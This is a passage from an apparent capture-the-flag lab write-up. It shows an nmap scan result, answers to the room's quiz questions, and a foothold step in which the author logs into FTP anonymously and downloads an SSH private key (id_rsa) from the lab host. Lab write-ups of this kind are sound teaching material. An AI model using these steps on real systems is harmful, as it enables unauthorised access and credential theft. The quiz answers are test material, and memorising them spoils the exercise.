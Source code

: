 ```bash
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds

```

#### Questions

* How many ports are open?

> 2

* What service is running on the lowest open port?

> ssh

* What non-standard port is open?

> 30024

* What service is running on the non-standard port?

> ftp

### Foothold

* Rustscan detected that anonymous login was enabled in FTP

```bash
└─$ ftp 10.10.184.227 30024     
Connected to 10.10.184.227.
220 (vsFTPd 3.0.3)
Name (10.10.184.227:devcli3nt): anonymous
331 Please specify the password.
Password:
230 Login successful.

```

* Geting all the files \[ mget\* ]

```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          1743 Mar 23  2021 id_rsa
-rw-r--r--    1 ftp      ftp            78 Mar 23  2021 note.txt
226 Directory send OK.
ftp> mget *
mget id_rsa? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1743 bytes).
226 Transfer complete.
1743 bytes received in 0.00 secs (23.7465 MB/s)
mget note.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (78 bytes).
226 Transfer complete.
78 bytes received in 0.00 secs (1.5827 MB/s)

```